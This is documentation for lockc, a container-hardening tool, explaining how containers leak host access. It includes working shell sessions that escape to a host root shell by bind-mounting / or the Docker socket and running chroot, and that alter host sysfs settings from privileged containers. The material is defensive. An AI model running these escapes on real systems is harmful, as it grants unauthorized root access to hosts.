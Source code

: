 # Containers do not contain

Many people assume that containers:

- provide the same or similar isolation to virtual machines
- protects the host system
- sandboxes applications

While all the points except the first one are partially true, some parts of the
host filesystems are still exposed by default to containers and there are ways to
gain full access.

This section highlights and explains problematic exploitation possibilities
that **lockc** aims to fix via policies.

Please note that as **lockc** is still in early development stage, it doesn't
protect against all examples provided at this time. However, covering them all
is in the roadmap.

The goal of **lockc** is to eventually prevent any of those examples to be done
by a regular user. Following some examples as root by explicitly choosing the
*privileged* policy level in lockc is going to be still allowed. However, it is
is discouraged to use the *priviliged* level for containers which are not part
of Kubernetes infra (CNI plugins, operators, network meshes etc.). We might
still consider restricting some of behaviors even for *privileged* (i.e. it's
probably hard to justify `chroot` inside containers under any ciricumstance).

## Not everything is namespaced

Despite the fact that containers come with their own rootfs, some parts of the
filesystem are **not namespaced**, which means that the content of some
directories is **exactly the same as on the host OS**. Examples:

- Kernel filesystems under */sys*
- many sysctls under */proc/sys*

For non-privileged containers, the content of those directories is read-only.
However, privileged containers can write to them. In both cases, we think that
even exposing many of those directories without write access is unnecessary
for regular containers.

To show some more concrete examples, access to those directories can allow to:

- Check and change GPU settings

```bash
❯ docker run --rm -it opensuse/tumbleweed:latest bash
f4891490a2f3:/ # cat /sys/class/drm/card0/device/power_dpm_force_performance_level
auto
f4891490a2f3:/ # exit
❯ docker run --rm --privileged -it opensuse/tumbleweed:latest bash
bad479286479:/ # echo high > /sys/class/drm/card0/device/power_dpm_force_performance_level
bad479286479:/ # cat /sys/class/drm/card0/device/power_dpm_force_performance_level
high
bad479286479:/ # exit
❯ cat /sys/class/drm/card0/device/power_dpm_force_performance_level
high
```

- look at the host OS filesystem metadata

```bash
❯ docker run --rm -it opensuse/tumbleweed:latest bash
0d35122d08f9:~ # ls /sys/fs/btrfs/a8222a26-d11e-4276-9c38-9df2812cead2/
allocation  bdi  bg_reclaim_threshold  checksum  clone_alignment  devices  devinfo  exclusive_operation  features  generation  label  metadata_uuid  nodesize  qgroups  quota_override  read_policy  sectorsize
```

- use fdisk in a privileged container

```bash
❯ docker run --rm -it --privileged registry.opensuse.org/opensuse/toolbox:latest bash
8b71e0119552:/ # fdisk -l
Disk /dev/nvme0n1: 1.82 TiB, 2000398934016 bytes, 3907029168 sectors
Disk model: Samsung SSD 970 EVO Plus 2TB
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: gpt
Disk identifier: 8EEBDAB8-F965-4BA0-918A-2671BC67117C

Device           Start        End    Sectors  Size Type
/dev/nvme0n1p1    2048    1026047    1024000  500M EFI System
/dev/nvme0n1p2 1026048 3907029134 3906003087  1.8T Linux filesystem
```

## Host mounts

Container engines allow to bind mount any directory from the host. When using
local, non-clusterized container engines (docker, podman etc.) there are no
restrictions about what can be mounted. In case of Docker, anyone who has an
access to the socket (usually a member of `docker` group) can mount anything.

That gives every member of the `docker` group an access to the host OS as root:

```bash
❯ docker run --rm --privileged -it -v /:/rootfs opensuse/tumbleweed:latest bash
efa4f6e0529a:/ # chroot /rootfs
sh-4.4#
```

The `chroot` works without `--privileged` as well:

```bash
❯ docker run --rm -it -v /:/rootfs opensuse/tumbleweed:latest bash
abb67212044d:/ # chroot /rootfs
sh-4.4#
```

The other approach is to mount a Docker socket. The image used here is `docker`
which is the official image with Docker binaries installed. After starting the
first container, we are able to list containers running on the host. Then, we
are able to run another container - from inside the first one - which is
mounting directories from the host

```bash
❯ docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock docker sh
/ # docker ps
CONTAINER ID   IMAGE     COMMAND                  CREATED         STATUS         PORTS     NAMES
066811b60d69   docker    "docker-entrypoint.s…"   5 seconds ago   Up 5 seconds             suspicious_liskov
/ # docker run --rm --privileged -it opensuse/tumbleweed:latest bash
fcb94c1d3af6:/ # exit
/ # docker run --rm --privileged -it -v /:/rootfs opensuse/tumbleweed:latest bash
54b08e30fd9e:/ # chroot /rootfs
sh-4.4# cat /etc/os-release
NAME="openSUSE Leap"
VERSION="15.3"
ID="opensuse-leap"
ID_LIKE="suse opensuse"
VERSION_ID="15.3"
PRETTY_NAME="openSUSE Leap 15.3"
ANSI_COLOR="0;32"
CPE_NAME="cpe:/o:opensuse:leap:15.3"
BUG_REPORT_URL="https://bugs.opensuse.org"
HOME_URL="https://www.opensuse.org/"
```

Notice the difference between Linux distibution versions. The second container
image we used is *openSUSE Tumbleweed*, but the host is running
*openSUSE Leap 15.3*.

